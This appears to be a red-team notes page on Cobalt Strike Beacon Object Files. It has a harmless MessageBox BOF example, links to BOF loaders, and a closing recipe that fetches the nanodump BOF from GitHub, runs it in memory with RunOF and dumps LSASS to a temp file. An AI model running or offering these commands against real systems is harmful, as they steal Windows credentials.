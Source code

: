 ```yaml
---
description: Beacon Object Files / Common Object File Format
---
```


# BOF / COFF

Argument types for [bof_pack](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics_aggressor-scripts/as-resources_functions.htm#bof_pack):

| **Type** | **Description**                  | **Unpack With (C)**          |
|----------|----------------------------------|------------------------------|
| b        | binary data                      | BeaconDataExtract            |
| i        | 4-byte integer                   | BeaconDataInt                |
| s        | 2-byte short integer             | BeaconDataShort              |
| z        | zero-terminated+encoded string   | BeaconDataExtract            |
| Z        | zero-terminated wide-char string | (wchar_t \*)BeaconDataExtract |

A basic BOF example:

{% tabs %}
{% tab title="BOF" %}
{% code title="msgbox.c" %}
```c
// wget https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/beacon.h
// x86_64-w64-mingw32-gcc -c msgbox.c -o msgbox.o

#include <windows.h>
#include "beacon.h"

void go(char* args, int len)
{
    DECLSPEC_IMPORT INT WINAPI USER32$MessageBoxA(HWND, LPCSTR, LPCSTR, UINT);

    datap parser;
    BeaconDataParse(&parser, args, len);

    char* message;
    message = BeaconDataExtract(&parser, NULL);

    USER32$MessageBoxA(NULL, message, "Hello from BOF!", 0);
}
```
{% endcode %}
{% endtab %}
{% tab title="Aggressor" %}
{% code title="msgbox.cna" %}
```
alias msgbox {
    local('$handle $bof $args');
    
    # Read the bof file
    $handle = openf(script_resource("msgbox.o"));
    $bof = readb($handle, -1);
    closef($handle);

    # Pack args
    $args = bof_pack($1, "z", $2);
    
    # Print task to console
    btask($1, "Running MessageBoxA BOF");
    
    # Execute BOF
    beacon_inline_execute($1, $bof, "go", $args);
}

beacon_command_register("msgbox", "Pops a message box", "Calls the MessageBoxA Win32 API");
```
{% endcode %}
{% endtab %}
{% endtabs %}




## Run BOFs outside of CS

- [https://www.trustedsec.com/blog/coffloader-building-your-own-in-memory-loader-or-how-to-run-bofs/](https://www.trustedsec.com/blog/coffloader-building-your-own-in-memory-loader-or-how-to-run-bofs/)
- [https://github.com/trustedsec/COFFLoader](https://github.com/trustedsec/COFFLoader)
- [https://skyblue.team/posts/invoke-bof/](https://skyblue.team/posts/invoke-bof/)
- [https://github.com/airbus-cert/Invoke-Bof](https://github.com/airbus-cert/Invoke-Bof)
- [https://github.com/Cracked5pider/CoffeeLdr](https://github.com/Cracked5pider/CoffeeLdr)



### RunOF

- [https://labs.nettitude.com/blog/introducing-runof-arbitrary-bof-tool/](https://labs.nettitude.com/blog/introducing-runof-arbitrary-bof-tool/)
- [https://github.com/nettitude/RunOF](https://github.com/nettitude/RunOF)

An example of running the [nanodump.x64.o](https://github.com/helpsystems/nanodump/blob/main/dist/nanodump.x64.o) BOF via RunOF [fork](https://github.com/snovvcrash/RunOF) from memory:

- Compile RunOF.exe assembly and convert it to a PowerShell invoker (see [.NET Reflective Assembly](/pentest/infrastructure/ad/av-edr-evasion/dotnet-reflective-assembly.md))
- Search for argument types that the target BOF uses (usually located in accompanying Aggressor scripts):

```
curl -sSL 'https://github.com/helpsystems/nanodump/raw/main/'`curl -sSL 'https://api.github.com/repos/helpsystems/nanodump/git/trees/main?recursive=1' | jq -r '.tree[] | select(.path | endswith(".cna")) | .path'` | grep bof_pack
    $args = bof_pack($1, "iziiiiiiiziiz", $pid, $dump_path, $write_file, $use_valid_sig, $fork, $snapshot, $dup, $get_pid, $use_malseclogon, $binary_path, $use_malseclogon_race, $use_werfault, $werfault_lsass);
    $args = bof_pack($1, "ziiiiizb", $dump_path, $use_valid_sig, $fork, $snapshot, $dup, $use_malseclogon, $binary_path, $dll);
    $args = bof_pack($1, "z", $ssp_path);
    $args = bof_pack($1, "z", $2);
```

- Load the invoker into memory, fetch the BOF (`-u` option) and run it providing necessary arguments with their types like this:

```
PS > Invoke-RunOF -u https://github.com/helpsystems/nanodump/raw/main/dist/nanodump.x64.o '-i:0' '-z:C:\Windows\Temp\lsass.bin' '-i:1' '-i:1' '-i:0' '-i:0' '-i:0' '-i:0' '-i:0' '-z:' '-i:0' '-z:'
```
